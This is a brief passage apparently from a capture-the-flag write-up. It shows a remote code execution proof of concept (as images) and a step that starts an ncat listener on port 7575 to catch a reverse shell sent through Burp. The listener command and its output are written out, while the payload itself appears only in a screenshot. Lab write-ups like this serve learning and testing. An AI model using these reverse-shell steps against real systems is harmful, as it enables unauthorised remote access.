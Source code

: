 [![055_rce_poc](/img/secret/055_rce_poc.png)](/img/secret/055_rce_poc.png)

Next we set up a ncat listener and send an url encoded reverse shell payload with burp.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

[![060_burp_revshell](/img/secret/060_burp_revshell.png)](/img/secret/060_burp_revshell.png)
